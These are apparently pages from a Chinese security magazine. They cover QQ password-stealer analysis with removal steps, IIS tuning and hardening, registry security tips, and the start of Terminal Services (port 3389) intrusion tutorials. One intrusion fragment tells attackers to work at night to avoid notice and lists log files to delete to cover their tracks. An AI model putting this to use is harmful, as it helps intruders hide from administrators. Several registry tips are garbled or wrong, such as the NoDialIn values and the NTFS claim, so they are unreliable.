| 心理上 | 冒充和说服 | 不断地进行安全意识提高与安全培训活动 |
| 电话（询问处） | 扮演和说服 | 要求员工／咨询台工作人员永远不能在电话上公开密码或其他的机密信息 |
| 机构入口处 | 未授权的进入 | Tight badge security, employee training, and security officers present |

##### 现实的防范措施

事实上，要做到真正意义上的防范是很难的。现实一点来看，大多数企业没有资金和人力资源来做以上列出的事情。但是，一部分用在修补网络漏洞上的钱却可以转向这方面。同样，我们也不想在公司搞一个法庭似的咨询台，做到足够机灵、有理、有节就可以了，我们完全有可能做到在不牺牲安全的情况下保持很高的士气和轻松的企业文化。谨记我们只需要稍微改变一下游戏规则，入侵者就不再有机可乘。

#### 破解伸向 QQ 的 3 只黑手

文／安全天使·angel

看了上期的“教你辨别真假QQ”是不是觉得现在偷 QQ 的黑手无处不在呢？下面是作者根据当前流行的“QQ 黑手”进一步地剖析，并提供了“砍手”的方法，使在公共场所上网的朋友知道怎样保护自己的 QQ 号码。

现在窃取 QQ 密码的软件在网络上横行无阻，看着这么多同胞和自己心爱的 QQ 被无情地分开，我的心中有说不出的痛！以前的 QQ 木马 Kernelsys32、QQ 密码侦探、GOP、QQ 密码窃取器都很老了，查杀的方法满天飞，我现在要说的是一些现在流行的新秀。

Windows\CurrentVersion\Run 下面的 system 这个键值，然后重新启动，再删除注册表提示的路径里的源文件。如果有进程管理工具的直接杀掉进程，删除源文件即可。Win2000/XP 下先用任务管理器杀掉 QQCV11.EXE 这个进程，然后删除源文件，无须重新启动。重新启动的目的是停止程序的运行，只有这样才能删除源文件。

##### 第一个是阿 Q 盗密者 V1.1

该软件（图1）会监视 QQ 的使用并截取用户名和密码保存到文件中，无论是用“用户登录”还是“注册向导”登录 QQ，程序都会对其完成记录。程序的隐藏性很高，在 Win98/Me 下会隐藏进程，用 Ctrl+Alt+Delete 看不到进程。还有一个特点是准确率极高，并会记录用户登录时间，对 6 位数以下的号码给予说明。我用我的 QQ 登录时，记录文件里出现了如下记录：

```
用户号码：23516307
用户密码：**************
（2002年5月23日18时2分17秒登录）；
防范方法：Win98/Me 下先删除注册表
HKEY_LOCAL_MACHINE\Software\Microsoft\
```

##### 第二个是 QQ 黑暗精灵 V0.99 测试版

该软件（图2）第一次运行，它会提示你先选择一个存放 QQ 号码记录的文件目录，你选择好目录后，程序就已经在运行了，剩下的就是你第二天来取号了，成功率非常高！当你被记录后，用记事本打开 Netlog.qqh 这个文件，就会发现有如下格式的记录：

```
QQ号：23516307
密码为：**************
获取时间：02-5-23 18:20:38
====================
**************当然还是改的啦！
```

防范方法：由于该软件的密码记录文件是固定的文件名，所以只要查找硬盘上有没有 Netlog.qqh 这个文件，如果存在，那么你就中招了，或者用进程管理软件查看。第一次运行没有重新启动，会有一个和源文件同名的进程，并在注册表……

HKEY_LOCAL_MACHINE\Software 这个位置下产生一个名为 QQhacker 的主键，里边有记录密码的文件存放位置。重新启动后，进程名会改为 POWER.EXE，并把源文件改名为 POWER.EXE，把自身复制到系统目录（Windows 98 系统是在 c:\windows\system 下面），图标是 QQ 的图标，并把注册表 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 下面默认的这个键值修改了路径，指向 QQ 黑酷精灵 V0.99 的源文件，达到每次启动计算机便自动加载的目的。我们知道了软件的运行与隐藏原理以后，就很好下手了。

Win98/Me 下先将注册表 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 下面默认的这个键值修改为空的，也就是把里边的路径全删了！然后重新启动，再删除注册表提示的路径里的源文件。如果有进程管理工具的直接杀掉 QQHACKER09.EXE 或 POWER.EXE 进程，删除源文件即可。Win2000/XP 下先用任务管理器杀掉 QQHACKER09.EXE 或 POWER.EXE 进程，然后删除 QQhacker09.exe 和 POWER.EXE 文件。存放密码文件的目录也记得清理一下就 OK 了。

第三个是 QQ 杀手 4.97。这可是一个重量级的黑 Q 软件，设置界面如图 3 所示。

该软件可以准确记录 QQ 登录时的号码和密码，并保存在指定文件和发送到指定邮箱。支持的操作系统有 Win98/2000/XP；支持的 QQ 版本从 QQ2000b0710 到 QQ2000c0305。还有其他一些窃取软件没有的功能，如支持邮件发送的 SMTP 身份验证功能，提供手工捆绑支持，自动关闭本机防火墙功能，以便顺利发信。支持的有：金山网镖、天网个人防火墙。感觉真的很绝！记录完密码后，会在密码记录结果的文件那里出现如下的记录：

- 号码：43926132
- 密码：0

- 号码：43926132
- 密码：04

- 号码：43926132
- 密码：047

真够麻烦的，号码一次记录好，密码呢，就每输入一个字符记录一次，邮件收到的密码也是这种形式的。

防范方法：这个软件设置完后要运行 Mspro.exe 这个密码监控文件，进程名不是文件名，改成了 MSPOWER.EXE，因为该软件的密码监控文件会把自身复制到系统目录下，并改名为 MSPOWER.EXE，图标是一个插头和一个电源（Windows 98 系统是在 c:\windows\system 下面），还在注册表的 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 下面创建一个名为 LoadPowerPro 的键值，达到每次启动计算机都自动加载密码监控文件（MSPOWER.EXE）的目的，并开始记录密码，记一个发一个。

记录密码结果的文件可以自定义名称，所以暂且不说，反正没有主程序它也没有办法发挥，按照下面的方法即可删除：Win98/Me 下先删除注册表 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 下面 LoadPowerPro 这个键值，然后重新启动；再删除系统目录的 MSPOWER.EXE。如果有进程管理工具的直接杀掉 MSPOWER.EXE 进程，删除源文件即可。Win2000/XP 下先用任务管理器杀掉 MSPOWER.EXE 这个进程，然后删除系统目录的 MSPOWER.EXE。

这些窃取 QQ 密码的软件经过测试，每一个发信功能都很强，准确率也极高，我的测试专用信箱已经收到上面的 3 个软件的“祝福”了，所以上网特别是在网吧上网的朋友要更加小心了。在此，我给大家一条建议，就是用 QQ 的主程序登录 QQ，不要用快捷方式，特别是发现颜色不对的快捷方式，可以的话查看该快捷方式的属性，看看目标栏里是不是指向真正的 QQ 程序！本文还有一个目的：让大家都具备查杀病毒木马（包括已知和未知的）的能力，只要大家遵循“发现木马、分析木马的运行原理和隐藏、驻留方式→停止程序运行→删除源文件、清除后门”的思路，一切伸向你的黑手都会被砍断。你看，上面的 3 只大黑手不都被我们砍断了么？

> 在使用 IIS 过程中，有时候会觉得它的工作效率不太高，想想办法让它提起精神来为我们更好地服务吧！本文作者在使用 IIS 中总结出来的小经验，值得我们为之振奋！

### 提高 IIS 效率小经验

文／王也

Windows Server 成为越来越多网站所使用的服务器，IIS 作为其重要组成部分，起到了相当重要的作用，提高它的使用效率将有助于提高网站的访问速度，可以间接提高访问量。我们个人／局域网用户也经常使用它，有时候会觉得它的工作效率实在不高。笔者经过实践以后总结出两点小经验，可以提高 IIS 的工作效率：

- 1、IIS 在使用过程中会在内存开辟一部分空间作为缓冲，那些经常使用的对象将被放在此缓冲区中，用于提高存储效率，当然那会比在磁盘中存取快多了。根据实际情况，如果你经常使用的对象比较多，而且用户也比较多，那么你需要开辟更多的空间。具体方法需要修改注册表：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Inetinfo\Parameters\MemCacheSize（REG_DWORD）
```

缓冲大小的单位是 KB，发现 IIS 工作效率低的情况下应适当提高该值，但要根据物理内存的大小进行设置，设置过大会适得其反。

- 2、对象池不是 IIS 的重要特性，但它还是值得研究的。它在某些环境下能优化性能，提高应用程序速度和效率。

一个 COM+ 对象当它的资源能被提前定位和重用的时候能够被声明，这种方式是在组件服务中设置对象的属性来完成的。

- 请按下列步骤进行：
- 打开控制面板；
- 点击管理工具，再启动组件服务；
- 选择组件服务｜计算机｜我的电脑｜COM+ 应用程序；
- 根据你的情况，你的对象可能在“IIS In-Process Applications”和“IIS Out-Of-Process Pooled Applications”中运行；
- 点击你正在运行的对象，选“属性”；
- 再选择“激活”选项卡，并且选中“启动对象共用”。

最小池大小：当程序启动时，对象被提前分配和初始化时分配给对象的池的大小，其默认值为 0。我的电脑是在 20 几台电脑的局域网做服务器，内存也基本够用（256M），所以我设置为 200。

对象池大小：这是对象在池中的最大数目，除非客户特别需要释放对象，它的默认值是 1,048,576。你可以根据服务的需要增加或减少该值。个人用户可以不必这么多，它默认值的一半足够了。我的服务器设置为 600,000。

创建超时（毫秒）：客户端请求创建对象等待的时间，默认为 60000 ms。一旦对象的数目在池中达到最大值，其他的客户端请求必须等待，直到一个对象有效时。这个等待就是这里所设置的时间长度。我的服务器用了默认值。

经过以上设置，我的 IIS 服务明显提高了，大家不妨试试，希望对大家有所帮助。

### 如何在关机时清除 Pagefile 文件？

Pagefile 文件包括内存中一些换入换出的内容，在安全情况下用户或许希望在关机时能够清除这些内容。可以通过编辑注册表完成这样的功能：

- 打开注册表编辑器；
- 找到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management`；
- 如果 ClearPageFileAtShutdown 不存在就创建一个，它的类型是双字值；
- 设置 ClearPageFileAtShutdown 的值为 1；
- 重新启动计算机后修改就会生效。

### 妙改注册表，让系统更安全

现在的电脑给人一种弱不禁风的感觉，不是今天受到这个病毒突袭，就是明天受到那个黑客的攻击。出错、死机变得像家常便饭一样了。为了让计算机“坚强”起来，不少人找来了杀毒软件、防火墙，希望通过这些软件增强计算机的免疫力。的确，这些软件在一定程度上增强了计算机抵抗外来攻击的能力，但对于计算机内部系统存在的漏洞就无能为力了。本文的目的主要是向大家介绍一下通过修改注册表的方法，来提高系统的安全。

#### 一、隐藏一个服务器

为了保证局域网中服务器上的资源不受其他人的非法访问和攻击，我们从安全的角度考虑，有时需要把局域网中指定的服务器计算机名称隐藏起来，以便让其他局域网用户无法访问到。那么该如何实现呢？下面请看该设置的具体步骤：

- 1. 打开注册表编辑器，并在编辑器对话框中用鼠标依次单击如下分支：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters` 键值。
- 2. 用鼠标单击该键值下面的 Hidden 数值名称，如果未发现此名称，那么添加一个，其数据类型为 `REG_DWORD`。
- 3. 接着用鼠标双击此项，在弹出的“DWORD 编辑器”对话框中输入 `1` 即可。
- 4. 最后单击“确定”按钮，并退出注册表编辑窗口，重新启动计算机，就可以在局域网中隐藏一个服务器了。

#### 二、防止其他人非法编辑注册表

注册表是整个系统的灵魂所在，任何对注册表的错误修改都有可能让系统瘫痪。因此，如果你不是一位系统高手的话，最好不要轻易动手修改注册表。当然在公共场所，为了防止那些电脑“菜鸟”们随意更改注册表设置，我们最好还是取消其他用户对注册表进行修改的权利。我们可以按照如下步骤来实现这一目的：

- 1. 首先，在注册表编辑界面中找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies` 键值。
- 2. 然后在 Policies 键值的下面新建一个 System 主键，如果该主键已经存在的话，可以直接进行下一步。
- 3. 接着在对应 System 主键右边窗口的空白处再新建一个 DWORD 值，并命名为 `DisableRegistryTools`。
- 4. 把 `DisableRegistryTools` 的值设置为 `1`，设置好以后，重新启动计算机，就可以达到防止其他人非法编辑注册表的目的了。

#### 三、屏蔽“控制面板”的访问

由于通过控制面板，我们可以对计算机系统中的绝大部分软硬件进行设置和控制，因此，为了防止其他人随意通过控制面板对 Windows 系统进行非法修改，我们就很有必要屏蔽其他用户对“控制面板”的访问了。要实现该功能，我们可以对注册表进行如下修改：

- 1. 首先在开始菜单中的运行栏中输入 `Regedit` 命令，打开注册表编辑器操作界面。
- 2. 接着在该界面中，依次用鼠标访问 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 键值。
- 3. 随后在对应 System 键值的右边窗口中，用鼠标右键单击该窗口的空白处，并从弹出的快捷菜单中选择“新建”/“DWORD”命令，来新建一个 DWORD 值。
- 4. 把 DWORD 值的名称命名为 `NoDispCPL`，同时设置 `NoDispCPL` 的值为 `1`。

#### 四、不允许其他人对桌面进行任意设置

如果在培训时，每台计算机的桌面设置都一样，那么老师说到什么图标或者执行什么操作，每个学员都能迅速找到目标；相反，一旦桌面中的设置被任意修改后，每一台计算机中的设置就会不一样，那么在教学时，就很难保证教学操作的同步性。为此，不少学校机房或者培训机房都对锁定桌面进行了设置。下面是具体的设置步骤：

- 1. 在 Windows 的运行对话框中输入 `regedit` 命令，来打开注册表编辑器窗口。
- 2. 在编辑窗口中，用鼠标依次访问 `HKEY_USERS\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 键值。
- 3. 在对应 Explorer 键值右边的窗口中，用鼠标双击 `NoSaveSettings` 子键，并将其键值从 `0` 改为 `1`。
- 4. 重新启动计算机，上述设置就可以生效了。

#### 五、抵御 BackDoor 的破坏

如果你的计算机上网了，那么就存在被黑客攻击的危险，而一旦遭受攻击，你的计算机就会面临着瘫痪或者被监视的安全威胁，其中有一个名叫 BackDoor 的后门程序，专门找系统的漏洞进行攻击。为防止这种程序对系统造成破坏，我们有必要通过相应的设置来预防 BackDoor 对系统的破坏。设置时：

- 1. 首先在注册表编辑器操作窗口中，用鼠标依次单击键值 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`。
- 2. 在对应 Run 键值的右边窗口中，如果发现了 `Notepad` 键值，只要将它删除，就能达到预防 BackDoor 的目的了。

#### 六、隐藏用户登录名

Win9x 以上的操作系统可以对以前用户登录的信息具有记忆功能，下次重新启动计算机时，我们会在用户名栏中发现上次用户的登录名，这个信息可能会被一些非法分子利用，而给用户造成威胁，为此我们有必要隐藏上机用户登录的名字。

- 1. 在设置时，请用鼠标依次访问键值 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon`。
- 2. 在对应 Winlogon 键值右边的窗口中，用鼠标右键单击窗口的空白处，从弹出的快捷菜单中选择“新建”/“字符串”命令。
- 3. 给新建字符串命名为 `DontDisplayLastUserName`，并把该字符串值设置为 `1`。
- 4. 设置完后，重新启动计算机，就可以隐藏上机用户登录的名字了。

#### 七、不允许用户拨号访问

如果用户的计算机上面有重要的信息，有可能不允许其他人随便访问。那么，如何禁止其他人拨入访问你的计算机，减少安全隐患呢？具体步骤为：

- 1. 打开注册表编辑器，并在编辑器中依次展开以下键值：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Network`。
- 2. 在编辑器右边的列表中用鼠标选择 `NoDialIn` 键值，如果没有该键值，必须新建一个 DWORD 值，名称设置为 `NoDialIn`。
- 3. 接着用鼠标双击 `NoDialIn` 键值，编辑器就会弹出一个名为“字符串编辑器”的对话框，在该对话框的文本栏中输入数值 `1`，其中 `0` 代表禁止拨入访问功能，`1` 代表允许拨入访问功能。
- 4. 退出后重新登录网络，上述设置就会起作用。

#### 八、屏蔽对软盘的网络访问

俗话说“病从口入”，计算机中的病毒有很多都是通过访问不干净的软盘而被感染的，如果我们允许用户通过网络来访问软盘的话，那么整个网络都有可能被感染病毒，最终的结果将会使网络中的所有计算机都中毒瘫痪。为了防止病毒入侵整个网络，我们必须严格管理计算机的输入设备，以断绝病毒的源头，为此就要禁止通过网络访问软盘。设置时，你可以按照如下操作步骤来进行：

- 1. 在系统的运行对话框中输入 `Regedit` 命令，打开注册表编辑器。
- 2. 在注册表编辑器操作窗口中，依次打开键值 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`。
- 3. 在对应 Winlogon 右边的窗口中，检查一下其中有没有包含键值 `AllocateFloppies`，如果没有，用鼠标右键单击窗口的空白处，从弹出的快捷菜单中选择“新建”/“DWORD 值”。
- 4. 把新建的 DWORD 值取名为 `AllocateFloppies`，同时把它的值修改为 `0` 或 `1`，其中 `0` 代表可被域内所有管理员访问，`1` 代表仅可被当地登录者访问。

#### 九、禁止访问“文件系统”按钮

在“系统属性”对话框中，有一个名为“文件系统”的功能按钮，利用它你可以对计算机的硬盘、软盘以及其他移动设备进行相关设置。但为了防止非法用户随意篡改这些设备的设置，你有时需要把“系统属性”中“文件系统”的按钮隐藏起来。下面是具体的设置步骤：

- 1. 打开注册表编辑器窗口，并在窗口中依次访问如下键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System`。
- 2. 在对应 System 键值的右边窗口中，用鼠标单击窗口的空白处，从弹出的快捷菜单中选择“新建”/“DWORD 值”。
- 3. 给新建的 DWORD 值取名为 `NoFileSysPage`，并把它的值设置为 `1`。
- 4. 设置完后，重新启动计算机就可以使设置生效了。

#### 十、让“网上邻居”图标隐藏起来

大家知道，通过网上邻居可以随意访问局域网中其他计算机上的内容，但如果其他计算机没有设置特别的访问权限，那些别有用心的破坏者很有可能利用网上邻居来非法删除其他计算机上的重要数据，给其他计算机造成损失。为了避免这样的损失，我们可以利用注册表来隐藏“网上邻居”。

- 1. 首先在打开的注册表编辑器操作窗口中，用鼠标依次访问键值 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`。
- 2. 在对应 Explorer 键值右边的操作窗口中，用鼠标单击窗口的空白处，从弹出的快捷菜单中，用鼠标依次访问“新建”/“DWORD 值”。
- 3. 给新建的 DWORD 值命名为 `NoNetHood`，同时把该值设置为 `1`（十六进制）。
- 4. 设置好后，重新启动计算机就可以使设置生效了。

#### 十一、限制使用系统的某些特性

在网吧或公用场所中，有时为了保证系统的属性不被其他普通用户随意更改，我们就必须要限制使用系统的某些特性。要实现这个目的，我们可以利用修改注册表编辑器的方法来达到。

- 1. 运行注册表编辑器，进入 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 键值。
- 2. 如果不存在该键值，就新建一个。
- 3. 然后将该键值下方的 `DisableTaskManager` 的值设为 `1`，表示将阻止用户运行任务管理器。
- 4. 接着将 `NoDispAppearancePage` 设为 `1`，表示将不允许用户在控制面板中改变显示模式。
- 5. 下面再将 `NoDispBackgroundPage` 设为 `1`，表示将不允许用户改变桌面背景和墙纸。

#### 十二、限制用户使用指定程序

为防止用户非法运行或者修改程序，导致整个计算机系统处于混乱状态，我们可以通过修改注册表来达到让用户只能使用指定程序的目的，从而保证系统的安全。

- 1. 在注册表编辑器窗口中依次打开 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 键值。
- 2. 在对应 Explorer 键值右边的窗口中，新建一个 DWORD 值，名字取为 `RestrictRun`，把它的值设为 `1`。
- 3. 在 `RestrictRun` 的主键下分别添加名为“1”“2”“3”等字符串值，然后将“1”“2”“3”等字符串的值设置为我们允许用户使用的程序名。例如将“1”“2”“3”分别设置为 `word.exe`、`notepad.exe`、`write.exe`，则用户只能使用 Word、记事本、写字板了。这样，我们的系统将会做到最大的保障，也可以限制用户运行不必要的软件了。

#### 十三、不允许用户设置屏幕保护密码

许多电脑使用者在使用电脑时，都有一种独占性，他们不希望自己使用的电脑让别人使用，于是他们常常会在短暂离开电脑时，给电脑设定屏保密码。但遗憾的是，他们在用完电脑之后，又不能及时把这些屏保密码去除，这样很容易导致其他用户不能正常使用，严重的能使计算机无法启动。为了避免这些现象的发生，我们可以通过修改注册表，来设定用户无权进行屏保密码的设置。

- 1. 打开注册表编辑器窗口，在该窗口中用鼠标访问 `HKEY_CURRENT_USER\ControlPanel\Desktop\ScreenSaveUsePassword` 键值。
- 2. 在对应 `ScreenSaveUsePassword` 键值的右边窗口中，将 `ScreenSaveUsePassword` 的值设置为 `0` 就可以了。

#### 十四、将文件系统设置为 NTFS 格式

在 Windows 2000 以及 NT 系统中，用户可以将分区设置为 NTFS 格式来确保文件系统的安全，当然我们也可以通过修改注册表的方法来达到将文件系统设置为 NTFS 格式的目的，具体实现步骤如下：

- 1. 打开注册表编辑器，并在编辑器中依次展开以下键值：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem`。
- 2. 在注册表编辑器中用鼠标单击“编辑”菜单，并在下拉菜单中选择“新建”菜单项，并在其弹出的子菜单中单击“DWORD 值”。
- 3. 在编辑器右边的列表中输入 DWORD 值的名称为 `NtfsDisableLastAccessUpdate`。
- 4. 接着用鼠标双击 `NtfsDisableLastAccessUpdate` 键值，编辑器就会弹出一个名为“字符串编辑器”的对话框，在该对话框的文本栏中输入数值 `1`，其中 `0` 代表“取消”该项功能，`1` 代表“启用”该项功能。

#### 十五、抵御 WinNuke 黑客程序对计算机的攻击

WinNuke 是一个破坏力极强的程序，该程序能对计算机中的 Windows 系统进行破坏，从而导致整个计算机系统瘫痪，所以我们有必要预防 WinNuke 的破坏性。我们可以在注册表中对其进行设置，以保证系统的安全。

- 1. 在注册表编辑器操作窗口中，用鼠标依次单击键值 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\MSTCP`。
- 2. 在对应 `MSTCP` 键值的右边窗口中，用鼠标单击窗口的空白处，从弹出的快捷菜单中选择“新建”/“DWORD 值”，并给 DWORD 值取名为 `BSDUrgent`，如果该键值已经存在，可以直接进行下一步。
- 3. 然后将 `BSDUrgent` 值设置为 `0`，重新启动计算机后就可以实现目的了。

编者后记：近期编辑部经常收到有关询问注册表安全的问题，编辑们也尽力解答，闲暇之余想是不是为大家整理一篇常见注册表和网络安全交织的文章呢？碰巧作者投来一文，一看正中下怀，赶紧拿出来和大家共同分享。虽都是一些小的知识点，但是非常实用，希望大家能够喜欢。

> （上接 39 页）

每天找一片阿司匹林，它们会升得长久。

两天：“是吗？我会的，对了，让你看的影片《生命因你而动》看了吗？”

一天：“看了，片子很感人。喔，昨天你的手指被开水烫了，怎么样了？”

两天：“没事了，小意思。昨天看了本书，有这样一句话送给你：‘如果你无所畏惧，你又能怎样？’”

一天：“什么意思？”

两天：“没什么，只是觉得好，希望你开心点。我有点累了，咱们明天见，好吗？我也很想念你。”

三天了，他都没有上网来看我。

第四天，第五天……

等待是一种痛苦的幸福，我知道，他不再来了，先走的是幸福，留下来的是痛苦的。

看着镜中的我，头发脱落得已不剩几根了。我还是个女孩儿吗？这个问题似乎已不再重要了，疾病在侵蚀肉体的同时，绝对不会放过你的心灵的。

窗外树上的叶子也仅有几片在瑟瑟的秋风中即将飘零。我流泪了，我坚持不下去了；我还想见他，还想做美丽的新娘……

在不久的日子里，希望我的爸爸妈妈不要为我流泪。爸爸，妈妈，好吗？

如果有来生，我会开心地活，真想拥有简单而美丽的人生。

编者后记：看完这篇短文我只有一种感觉，一种苦涩的感觉，一种想要流泪的感觉。真的，由此我想起了一位朋友，一位和他们有着相近境况的网友，我只存在心里默默地祝福他们，愿他们能够开心地度过每一天，也希望大家和我一样祝福他们，并且让我们的生活充实起来……

### 保护你的 IIS Server

翻译整理／王也

原文：Protecting Your IIS Server and Web Application（Andrew Novick）

由于近期一些利用 IIS 漏洞进行破坏 IIS Server 的病毒和黑客的猖獗，IIS 似乎显得越来越脆弱，如何保护 IIS Server 不让它遭受到破坏，让它更加强壮呢？本文从各个方面进行了介绍。

近期基于 IIS 的服务器受到了一些病毒（如尼姆达、红色代码等等）和黑客比较大的破坏，保护 IIS 服务器不受病毒和黑客的侵害是目前和将来都要解决的首要问题。关于系统的安全问题大家可以到 http://www.microsoft.com/security 看看。本文将从五个方面介绍如何保证你的 IIS Server 的安全性。

#### 一、从被感染的系统进行恢复或重建

如果你的系统受到感染，你的第一步工作就是对系统进行恢复或重建。进行恢复的工作包括对病毒进行清除和对破坏的数据进行修复。如果是重建，则需要在可靠的介质中把被破坏的数据从备份进行恢复。重建是个非常繁琐的工作，但它能保证数据的完整性和可靠性。在某些情况下，比如你的重要数据被大量破坏，这个时候你不得不进行重建。如果你要保证安全，重建是最好的方法。你可以按如下步骤进行：

- 1. 停止 IIS 服务。
- 2. 安装杀毒软件，对病毒进行查杀。
- 3. 去除不必要的共享。
- 4. 由于 NTFS 更能保护你数据的安全，建议使用 NTFS 格式，可以用 convert 命令把 FAT16/FAT32 格式转换为 NTFS 格式。

在进行杀毒和必要的重建工作之后，你的系统安全性就有一定的提高了。

#### 二、对系统进行更新和安装补丁包

对系统进行更新的最好办法是从 IE 中访问 Windows Update。下面列出一些必须进行更新的信息的情况：

- 1. 下载最新的补丁包，对系统进行更新。
- 2. 安装紧急升级包。
- 3. 更新你的 IE（IE 5.5 或 6.0）。
- 4. 看看 Windows 紧急更新公告。
- 5. OUTLOOK：OUTLOOK 不应该在 IIS 服务器中，应该将其删除。
- 6. 安装最新的资源工具包。

#### 三、检查系统是否进行了最新的更新

你应该经常看看微软的公告，并打上最新的补丁包。你还可以用 Windows Update 进行更新，但这样比较麻烦，这里推荐一个微软的工具 Network Security Hotfix Checker（Hfnetchk.exe），可以在 http://support.microsoft.com/support/kb/articles/q303/2/15.asp 下载到。

这个工具能有效地检查是否为 Win NT/2000 等系统的 IIS、IE 补上了漏洞，它能检查整个域的成员的情况，功能非常强大。当你在 IE 中进行 Windows Update 时，hfnetchk 能为你检查系统的情况，当出现“All necessary hot fixes have been applied”说明你的漏洞已经补上了。但在 NT 中会有一些问题出现，当你打上了最新补丁后仍然提示让你打上补丁包。另外，有些时候还需要手动进行检查。一般情况下这个工具还是很好用的。

#### 四、保护系统不受其他方式的攻击

下面介绍几个实用的工具和经验，保护系统的安全：

- 1. URLScan：一个功能非常强大的工具，能为你检查系统运行 HTTP 服务的情况，它包括以下几个检查的项目：
  - 不正确的 URLs。

- 尝试运行一些受限制的文件，如 EXE、HTA、IDA 等等。
- 一些受限制的 HTTP 请求，现在一般所能进行的请求是 GET、POST 和 HEAD。大家可以到 http://www.microsoft.com/technet/security/urlscan.asp 下载到这个工具。

- IIS Lockdown：这个工具能保护系统不受尼姆达、红色代码和其他一些有害代码的攻击。但这个工具有些“愚钝”，如果你愿意的话，它会关闭所有的“危险”项目。另外，它会把进行保护的信息提交到 URLScan 中。这个工具可以在 http://www.microsoft.com/technet/security/tools/locktool.asp 中找到。

##### （3）经验介绍

- 在事件查看器中，把日志的大小设置为 10MB，并且允许覆盖。每三天进行一次备份。
- 当 CMD.EXE 文件移到别的目录的时候，要确保每个用户登录的时候能用上它。
- 建议把 CMD.EXE 和其他一些工具移动到用户各自默认的目录中，但千万别移动到 Administrator 的目录中。
- 如果服务器上装有数据库方面的服务，在进行 TCP/IP 过滤时，注意别把应用程序的请求也过滤掉。
- 用访问控制列表（ACL）和文件保护对 Web 页进行保护。
- 打开安全审核的必要选项，如用户的登录、操作等等。这对于监视有很大的帮助。
- 安装防火墙。

#### 五、对系统进行监视

IIS 服务器是暴露在网络上的，因此经常容易受到病毒的侵袭和人为的破坏等等。对系统进行监视成为一件非常重要的事。下面简要介绍一下对系统需要进行监视的几个方面：

- 1. 对病毒进行监视：目前攻击 IIS 服务器的病毒比较猖獗，建议打开病毒防火墙，并且对数据进行监视，一旦发现有病毒入侵或者破坏，马上采取相应的手段和措施。
- 2. 对系统事件进行监视：
  - 对失败的登录、用户的越权操作、数据属性的修改等操作进行审核；
  - 对非正常的操作进行查看，如不明系统的浏览请求，对数据包的不完全截取等等；
  - 要定时查看应用程序日志。
- 3. 检查你的系统是否更新过，前面介绍过的工具 Hfnetchk，可在命令行下运行：
- 4. 检查 Web 日志，请用前面介绍过的工具 URLScan。
- 5. 利用性能监视器对系统进行监视。这个操作是管理员必备的基础操作，我就不赘述了。

```bash
hfnetchk > HotFixBaseLine.log
```

作为一个网络管理员，很重要的一点就是“勤”，勤更新，勤检测，这些都是保证系统安全的根本。

#### （上接 15 页）

工具，或是改掉终端服务的端口，都尽量一次完成，因为你连接时加重对方机子的负荷，对方机子的反应速度会变慢，加上经常无故的读盘会引起管理员的怀疑。要利用肉鸡扫描或暴力猜解时，应该选择对方机子所在地的深夜才不易被发觉，因为那时的服务器较空闲，对方管理员又可能不在。

现在还剩一件非干不可的事——清除日志。如果你不想惹麻烦，就牢记这点。Windows 2000 的日志文件通常有应用程序日志、安全日志、系统日志、DNS 服务器日志等等，但 3389 的日志记录不是很完善，可还是会留下许多痕迹，特别是我们为了取得控制权可能利用了别的服务，留下许多别的痕迹。所以在清除日志时，要彻底地清除。有日志清除的工具当然最好，如果手工删除就麻烦点，一般情况可以把下面这些文件删掉就可以了。有些时候日志不放在这些文件里，可以查看日志的配置，还有些日志清除时需要停掉其守护进程才行。

```text
system32\logfiles\*.*
system32\dtclog\*.*
%systemroot%\system32\logfiles\*.*
%systemroot%\schedlgu.txt
%systemroot%\system32\config
```

#### 四、小结

今天就讲这么多，连我自己也越来越觉得如果被人通过终端服务进入机器真的好可怕，但管理员们也不用太担心了，如果你不用这个服务，只要把与之对应的 system32\termsrv.exe 删除就行了（当然这样做了也不是绝对安全）！虽然当用终端客户端程序登录到对方机子时，所有操作不会在他的机器上反应出来，但如果管理员打开了终端服务管理器，他就能看到一切了！

### 也谈 Win2000 TermService

#### 之 Windows 2000 Server 终端服务入侵

文／心羽

对于 3389 入侵这个词语大家一定都不陌生了，然而网络上大多数关于 3389 的文章都片面地谈了如何利用它来入侵远程主机，基本上就是结合输入法漏洞获取主机权限的方法。本文作者从多角度出发，结合多种方法，对终端管理服务的入侵方法进行了系统的概述，除了输入法漏洞之外，还谈到许多与终端服务相关的概念，是一篇不错的入门文章，很值得收藏。

谈 3389 终端服务的文章太多了，所以我在这里说“再谈”，此文不是什么技术性文章，只是总结了一些 3389 入侵的小技巧，适合新手们，高手可以不看。由于是总结，以前《黑防》中有介绍的我只提及，不再细说，不明白可以查阅以前的《黑防》。

自 Win 2000 问世以来，它的终端服务就一直深受黑客们的青睐，因为一旦黑客以管理员身份通过这个服务登录远程主机后，除了不能物理上接触该机外，黑客几乎拥有该机的所有功能，其功能之完备是任何木马后门都望尘莫及的。特别是全拼输入法漏洞出来后，3389 的入侵更是风靡一时！对国内用户来说唯一不足之处就是此服务对网速要求较高。但近年来随着宽带网在国内的普及，这一问题已解决。因此，现在网上关于 3389 入侵的讨论又多了起来，各种安全网站也纷纷把终端服务客户端重新搬了出来让人下载，是以著此文，以作小结。

